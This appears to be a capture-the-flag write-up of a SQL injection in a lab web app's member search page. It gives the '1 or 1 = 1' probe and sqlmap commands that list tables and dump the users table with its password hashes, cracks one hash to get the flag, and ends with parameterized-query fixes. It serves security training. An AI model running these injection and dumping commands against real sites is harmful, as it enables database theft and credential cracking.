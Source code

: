 VULNERABILTY__
   => Search member tag, is vulnerable to sql injection.


EXPLOIT_?
    step1 ) => see if the sight reposnds to an SQL Injection
    nu typing  [ 1 or 1 = 1], in the search bar and then press Enter.

    step 2) => if the page returns information about an image,
        open terminal, copy the URL and paste in sqlmap
        like so,

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables

        => this should return the schema's of the database.
        => then 

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T users

        ^ should retune the table:
        
 ```bash       
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```

    => copy and paste " 5ff9d0165b4f92b14994e5c685cdce28" on  "https://www.md5online.org/md5-decrypt.html" to get
    a decoded string i.e "fortytwo", then then type "fortytwo" in "https://passwordsgenerator.net/sha256-hash-generator/"
    to get the Flag "10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5"

```bash
 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo => fortytwo => 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
 ```

SOLUTION:
```bash
    Use SQL Parameters (parametized Queries)
     for Protection e.g txtNam = getRequestString("CustomerName");
                        txtAdd = getRequestString("Address");
                        txtCit = getRequestString("City");
                        txtSQL = "INSERT INTO Customers (CustomerName,Address,City) Values(@0,@1,@2)";
                        db.Execute(txtSQL,txtNam,txtAdd,txtCit);
                        ```

    => use prepared statements  and  stored procedure                              
  